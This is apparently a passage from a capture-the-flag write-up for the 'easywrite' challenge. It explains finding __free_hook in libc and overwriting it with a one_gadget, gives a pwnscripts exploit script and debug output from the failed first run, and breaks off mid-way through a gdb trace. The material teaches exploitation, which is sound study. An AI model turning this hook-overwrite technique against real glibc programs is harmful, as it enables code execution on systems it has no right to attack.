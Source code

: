 After the Procedure Linkage Table, there's a long stretch of garbage in the form of the `.data` and `.bss` sections, along with a few other `__libc_*` sections that are basically never referenced either<sup>2</sup>.

A few hours of blank staring later, and my eyes finally saw something I'd missed the last 10 times I tried scanning IDA View-A:
```c
.bss:00000000001EEB28                 public __free_hook ; weak
.bss:00000000001EEB28 ; __int64 (__fastcall *_free_hook)(_QWORD, _QWORD)
.bss:00000000001EEB28 __free_hook     dq ?                    ; DATA XREF: LOAD:0000000000008A48↑o
.bss:00000000001EEB28                                         ; .got:__free_hook_ptr↑o
```
*__free_hook? Isn't that that thing that I heard about once a long time ago in a [writeup](https://teamrocketist.github.io/2019/09/09/Pwn-N1CTF-2019-warmup/) somewhere?*

To repeat something you may already know: `__free_hook()` is a function pointer that overrides the default behaviour of `free()` iff `__free_hook != NULL`. If we change `__free_hook` to point to a `one_gadget` (or something), we'll have beaten the challenge.

Let's try that.
```python
from pwnscripts import *
context.binary = 'easywrite'
context.libc_database = 'libc-database'
context.libc = 'libc-2.31.so'

context.log_level = 'debug'
r = context.binary.process()
context.libc.calc_base('setbuf', unpack_hex(r.recvline()))

free_hook = 0x00000000001EEB28+context.libc.address
r.sendafter('Input your message:', pack(context.libc.select_gadget(1)))
r.sendafter('Where to write?:', pack(free_hook))
r.sendafter('Any last message?:', b'\0')

r.interactive()
```
Things are never so simple, of course.
```python
[DEBUG] Received 0x12 bytes:
    b'Any last message?:'
[DEBUG] Sent 0x1 bytes:
    0 * 0x1
[*] Switching to interactive mode
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[*] Got EOF while reading in interactive
$
```
A little backtracing in `gdb` shows the issue. First, we'll let it crash, and observe the backtrace:
```c
[#0] Id 1, Name: "ld-linux-x86-64", stopped 0x555556b192a0 in ?? (), reason: SIGSEGV
───────────────────────────────────── trace ────
[#0] 0x555556b192a0 → out 0x3c, al
[#1] 0x7f53d96b2376 → mov eax, 0x0
[#2] 0x7f53d96abb28 → __after_morecore_hook()
[#3] 0x555556b192a0 → out 0x3c, al
[#4] 0x555556b195b0 → add BYTE PTR [rax], al
────────────────────────────────────────────────
```
The backtrace isn't actually that helpful, so I just hit `n` and `s` continually until I isolated the crashing instruction:
```c
$rax   : 0x0000555555fa02a0  →  0x00007f776fd29ce6  →  <execvpe+1142> mov rsi, r10
$rbx   : 0x00007f776fe383a0  →  0x8d4c5741fa1e0ff3
```